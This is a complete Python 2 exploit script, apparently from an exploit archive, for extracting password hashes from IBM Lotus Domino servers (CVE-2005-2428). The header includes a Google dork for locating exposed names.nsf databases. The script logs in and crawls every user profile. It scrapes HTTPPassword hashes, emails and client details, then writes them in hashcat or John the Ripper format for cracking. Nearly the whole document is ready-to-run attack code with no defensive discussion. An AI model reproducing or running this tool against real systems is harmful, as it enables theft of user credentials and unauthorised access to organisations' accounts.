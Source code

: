 Exploit
-------

    #!/usr/bin/env python2

    # Exploit Title: IBM Lotus Domino <= R8 Password Hash Extraction Exploit
    # Google Dork: inurl:names.nsf?opendatabase
    # Date: 02-24-2016
    # Exploit Author: Jonathan Broche
    # Authentication and multi page parsing added by: Alexander Schwankner
    # Contact: https://twitter.com/g0jhonny
    # Vendor Homepage: https://www-01.ibm.com/software/lotus/category/messaging/
    # Tested on: Lotus Domino 8.5
    # CVE : CVE-2005-2428

    import argparse
    import csv
    import getpass
    import re
    import sys

    import BeautifulSoup
    import requests

    requests.packages.urllib3.disable_warnings()

    parser = argparse.ArgumentParser(
        description='Domino Effect - A Lotus Domino password hash tool by Jonathan Broche (@g0jhonny) authentication and multi page parsing added by Alexander Schwankner',
        version="1.1")
    parser.add_argument('system', help="IP address or hostname to harvest hashes from. ")
    parser.add_argument('-n', '--username', metavar='username')
    parser.add_argument('-u', '--uri', metavar='path', default="/names.nsf",
                        help="Path to the names.nsf file. [Default: /names.nsf]")
    outgroup = parser.add_argument_group(title="Output Options")
    outgroup.add_argument('--hashcat', action='store_true', help="Print results for use with hashcat.")
    outgroup.add_argument('--john', action='store_true', help="Print results for use with John the Ripper.")
    parser.add_argument('-f', '--file', metavar='outputPath', help="Output file in given format.")
    parser.add_argument('-c', '--csv', metavar='CSV file with many information about the user')

    password = getpass.getpass(prompt='Password: ', stream=None)

    if len(sys.argv) == 1:
        parser.print_help()
        sys.exit(1)

    args = parser.parse_args()
    print "\nDomino Effect {}\n".format(parser.version)

    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; U; Linux i686; en-US) AppleWebKit/534.3 (KHTML, like Gecko) Chrome/6.0.472.63 Safari/534.3'
    }

    postData = {'Password': password, 'Username': args.username, 'RedirectTo': '/names.nsf/People?OpenView'}

    with requests.Session() as s:
        try:
            response = s.post("https://{}{}?Login".format(args.system, args.uri), verify=False, headers=headers,
                              timeout=3, data=postData)
        except requests.exceptions.Timeout as e:
            print "[!] Timed out, try again."
            sys.exit(1)
        except Exception as e:
            print e

        hashes = {}
        start = 1
        file = open(args.file, 'w')
        i = 0
        algorithm = "not detected"
        if args.csv:
            csvFile = open(args.csv, 'w')
            fieldnames = ['name', 'hash', 'algorithm', 'email', 'ClntMachine', 'ClntPltfrm', 'ClntBld',
                          'HTTPPasswordChangeDate']
            csvWriter = csv.DictWriter(csvFile, fieldnames=fieldnames, dialect='excel')
            csvWriter.writeheader()
        while True:
            try:
                response = s.get("https://{}{}/People?OpenView&Start={}".format(args.system, args.uri, start), verify=False,
                                 headers=headers,
                                 timeout=3)
            except requests.exceptions.Timeout as e:
                print "[!] Timed out, try again."
                sys.exit(1)
            except Exception as e:
                print e

            soup = BeautifulSoup.BeautifulSoup(response.text)

            start = start + 30
            if 'Keine Dokumente gefunden' in response.text:
                break
            if 'No Document found' in response.text:
                break

            links = []

            # grab all user profile links
            for link in soup.findAll('a'):
                if "OpenDocument" in link['href']:
                    if link['href'] not in links:
                        links.append(link['href'])

            for link in links:  # get user profile
                try:
                    response = s.get("https://{}{}".format(args.system, link), verify=False, headers=headers, timeout=2)
                except requests.exceptions.Timeout as e:
                    pass
                except Exception as e:
                    print e

                if response.text:
                    soup = BeautifulSoup.BeautifulSoup(response.text)

                    name = soup.find('input', {'name': '$dspShortName'}).get('value').strip()  # short name
                    httppassword = soup.find('input', {"name": "HTTPPassword"}).get('value').strip()
                    dsphttppassword = soup.find('input', {"name": "dspHTTPPassword"}).get('value').strip()
                    email = soup.find('input', {"name": "InternetAddress"}).get('value').strip()
                    ClntMachine = soup.find('input', {"name": "ClntMachine"}).get('value').strip()
                    ClntBld = soup.find('input', {"name": "ClntBld"}).get('value').strip()
                    ClntPltfrm = soup.find('input', {"name": "ClntPltfrm"}).get('value').strip()
                    HTTPPasswordChangeDate = soup.find('input', {"name": "HTTPPasswordChangeDate"}).get('value').strip()

                    if httppassword:
                        hash = httppassword
                    elif dsphttppassword:
                        hash = dsphttppassword
                    else:
                        print('No passwords found')
                        exit(1)

                    # match regex to determinate hash algorithm
                    if len(re.findall(r"^[a-f0-9]{32}$", hash, re.MULTILINE)) == 1:
                        algorithm = 'Lotus Notes/Domino 5'
                    elif len(re.findall(r"(^[(]{1})([A-Za-z0-9+/]{20})([)]$)", hash, re.MULTILINE)) == 1:
                        algorithm = 'Lotus Notes/Domino 6'
                    elif len(re.findall(r"(^[(]{1})([A-Za-z0-9]{49})([)]{1}$)", hash, re.MULTILINE)) == 1:
                        algorithm = 'Lotus Notes/Domino 8'
                    else:
                        algorithm = 'not detected'

                    if args.csv:
                        csvWriter.writerow(
                            {'name': name,
                             'hash': hash,
                             'algorithm': algorithm,
                             'email': email,
                             'ClntMachine': ClntMachine,
                             'ClntPltfrm': ClntPltfrm,
                             'ClntBld': ClntBld,
                             'HTTPPasswordChangeDate': HTTPPasswordChangeDate})

                    i += 1
                    print(str(i) + " " + name + " : " + hash)

                    if args.hashcat or args.john:
                        if args.hashcat:
                            file.write(hash + "\n")
                        if args.john:
                            file.write("{}:{}\n".format(name, hash))
                    else:
                        file.write("[*] User: {} Hash: {}".format(name, hash))

        print
        if args.csv:
            csvFile.close()
            print("extended account information written to " + args.csv)
        file.close()
        print("hashes written to " + args.file + " with hashing algorithm " + algorithm)  # I assume all users have the same hashing algorithm